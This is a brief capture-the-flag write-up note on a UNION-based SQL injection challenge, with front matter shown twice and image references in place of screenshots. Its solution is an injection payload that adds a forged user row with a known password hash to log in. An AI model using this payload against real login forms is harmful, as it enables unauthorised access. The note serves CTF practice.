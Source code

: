 ```yaml
---
title: "Union Sql Injection"
date: 2025-06-11T12:01:02+03:00
section: "ms ctf"
categories: ["ms ctf"]
---
```

---
section: "ms ctf"
categories: ["ms ctf"]
title: "Union Sql Injection"
date: 2025-05-21
---

![[Pasted image 20250521130606.png]]

the solution 
![[Pasted image 20250521130644.png]]

the query run was
```sql
' UNION SELECT 1, 'bob', '5e884898da28047151d0e56f8dc6292773603d0d6aabbdd62a11ef721d1542d8', ''--
password: password
```

